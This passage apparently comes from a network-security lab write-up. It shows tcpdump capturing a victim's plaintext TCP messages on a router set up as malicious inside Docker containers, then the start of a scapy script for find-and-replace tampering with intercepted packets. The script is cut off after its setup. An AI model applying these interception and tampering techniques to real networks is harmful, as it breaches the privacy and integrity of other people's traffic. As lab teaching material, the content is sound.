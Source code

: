### Goal
Capture the victim’s plaintext TCP messages after they are rerouted through the malicious router.

### Commands Used (on `csl-malicious-router`)
```bash
docker exec -it csl-malicious-router bash

# Capture full payloads in ASCII for analysis
tcpdump -i eth0 -nn -A -s 0 tcp port 1234 and host 10.9.0.5
```

### From Victim (`csl-victim`)
```bash
nc 192.168.60.5 1234
hello
I failed!
```
### From Host(`csl-host5`)
```bash
nc -lvnp 1234
hello
I failed!
```
### Result
On `tcpdump` running on the malicious router, we could see:
```
hello
I failed!
```
Proving that we captured and viewed TCP messages. This completes the breach of confidentiality.

---

## Task 4: Message Modification

### Goal
Modify intercepted TCP packets in real-time to demonstrate a breach of **data integrity**.

### Python Script: `modifier.py`
```python
#!/usr/bin/env python3
import argparse
from scapy.all import *
import os

parser = argparse.ArgumentParser(description="MITM Packet Modifier")
parser.add_argument("-s", "--src", required=True, help="Source IP address")
parser.add_argument("-f", "--find", required=True, help="String to find")
parser.add_argument("-r", "--replace", required=True, help="Replacement string")
args = parser.parse_args()

SRC_IP = args.src
FIND = args.find.encode()
REPLACE = args.replace.encode()

if len(FIND) != len(REPLACE):
    if len(REPLACE) < len(FIND):
        REPLACE += b' ' * (len(FIND) - len(REPLACE))
        print(f"[!] NOTE: Replacement string padded with {len(FIND) - len(REPLACE)} space(s).")
    else:
        print("[!] ERROR: Replacement string too long.")
        exit(1)
```